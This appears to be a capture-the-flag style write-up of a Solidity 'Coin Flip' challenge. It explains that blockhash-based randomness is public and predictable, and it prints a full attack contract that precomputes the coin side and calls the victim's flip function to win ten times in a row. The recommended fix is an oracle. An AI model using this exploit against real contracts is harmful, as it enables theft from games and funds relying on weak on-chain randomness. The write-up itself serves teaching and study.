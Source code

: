 # Coin Flip Challenge - Level 3

```yml
This smart contract has a vulnerability, it's use of the public source of randomness makes it vulnerable because:
```
- the ethereum blockchain is fully transparent and everything is public and can be viewed,

```Solidity
/**  
* @notice Blockhash and block.number are globally accessible variables available to everyone, 
* this is the source of randomness and can be exploited in the attack to calculate the correct side of the coin flip.
* The best practice in this case would be to introduce a source of randomness into a contract with a 
* decentralized oracle to compute random numbers, because there is no native way to generate random numbers in 
* Solidity and everything is publicly visible in the contract.
*/
/// @notice The attack contract can use the same process as the victim contract to find the value for the flip.
function flip(bool _guess) public returns (bool) {
  uint256 blockValue = uint256(blockhash(block.number.sub(1))); 
  uint256 coinFlip = blockValue.div(FACTOR); 
  bool side = coinFlip == 1 ? true : false;
```
  - after the attack contract finds the value for the flip it is assigned to the call to the flip function of the victim contract,
    - the player calls this flip function 10 times in a row to win.

```Solidity
victimContract.flip(side);
```

## 💥 The attack contract in detail:

```yml
The attack contract starts with importing the victim contract:
```
- this will be used in the attack contract's constructor,

```Solidity
// SPDX-License-Identifier: MIT
// fixed pragma
pragma solidity 0.5.0; 

import "./CoinFlip.sol";
// outdated import for SafeMath, pragma 0.8.0 has SafeMath included in version
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v2.5.0/contracts/math/SafeMath.sol";

/// @title attack contract, calculates correct side 10 times in a row
/// @author Web3 Blockchain Developer 
contract CoinFlipAttack {
    /** 
    * @notice Using for directive, using imported SafeMath functions from openzeppelin,
    * for unit256 to prevent overflow and underflow attacks. 
    */
    using SafeMath for uint256;
```
- the public state variable victimContract references the victim contract as CoinFlip and will be assigned by the player when the attack contract is deployed using the constructor,
- the attack contract also uses the state variable FACTOR from the victim contract,
- the constructor receives the victim contract address from the player and references the victim contract with CoinFlip(_victimContractAddr), this address is assigned as the public state victimContract

```Solidity
/// @notice public state variable assigned in constructor
    CoinFlip public victimContract; 
    
    // state variable assigned in function flip()
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    /** 
    * @notice victim address belonging to CoinFlip assigned as public state variable victimContract 
    * during deployment of attack contract 
    */
    constructor(address _victimContractAddr) public {
        victimContract = CoinFlip(_victimContractAddr);
    }
```
- finally the attack begins,
- after the attack contract finds the value for the flip it is assigned to the call to the flip function of the victim contract,
    - the player calls this flip function 10 times in a row to win.

```Solidity

/**  
* @notice Blockhash and block.number are globally accessible variables available to everyone, 
* this is the source of randomness and can be exploited in the attack to calculate the correct side of the coin flip.
* The best practice in this case would be to introduce a source of randomness into a contract with a 
* decentralized oracle to compute random numbers, because there is no native way to generate random numbers in 
* Solidity and everything is publicly visible in the contract.
*/
/// @notice The attack contract can use the same process as the victim contract to find the value for the flip.
function flip() public returns(bool) {
  uint256 blockValue = uint256(blockhash(block.number.sub(1)));
  
  uint256 coinFlip = blockValue.div(FACTOR); 
        
  bool side = coinFlip == 1 ? true : false;

  victimContract.flip(side);
    }
}

```
## 💥 Fire away at that flip button, ten times!
![Screen Shot 2022-10-31 at 1 05 02 PM](https://user-images.githubusercontent.com/104662990/199078205-0c19814b-c867-46bf-8b1e-9404585037af.png)



    
    
